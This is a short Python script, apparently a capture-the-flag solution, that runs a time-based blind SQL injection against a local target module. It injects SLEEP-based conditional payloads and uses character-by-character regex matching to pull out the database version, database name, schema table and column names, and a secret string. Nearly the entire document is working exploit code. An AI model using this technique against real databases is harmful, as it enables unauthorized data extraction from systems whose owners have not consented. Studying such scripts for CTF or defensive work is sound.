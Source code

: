 ```python
from mysqli_invisible_time import *
import string
import io
import sys
import signal

def handler(signum, frame):
    raise Exception("timeout")

signal.signal(signal.SIGALRM, handler)

def escape_string(c):
    return "\\" + c if c in ".+*" else c

def exp():
    payload_template = "Liki4' AND if({exp},SLEEP(1),0);#"
    space = string.ascii_letters + string.digits + ' _:,$.'

    exp_template = "@@version RLIKE '^{c}'"
    exp_template = "DATABASE() RLIKE '^{c}'"
    exp_template = "(SELECT GROUP_CONCAT(table_name, ':', column_name) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = DATABASE()) RLIKE '^{c}'"
    exp_template = "(SELECT binary GROUP_CONCAT(secret_string) FROM secret) RLIKE '^{c}'"

    print(exp_template)

    Flag = True

    data = ""

    while Flag:
        ori_stdout = sys.stdout
        for c in space:
            payload = payload_template.format(exp=exp_template.format(c=data+c))
            sys.stdin = io.StringIO(payload + '\n555_i_dont_know_password')
            res = sys.stdout = io.StringIO()

            signal.alarm(1)
            try:
                main()
                print("timeout")
            except:
                print("bingooo")
            
            output = str(res.getvalue())
            if "timeout" in output:
                continue
            if c == "$":
                Flag = False
                break
            if "bingooo" in output:
                data += c
                break
        sys.stdout = ori_stdout
        if Flag:
            print(data, end="\r")
        else:
            print(data)

if __name__ == "__main__":
    exp()
```
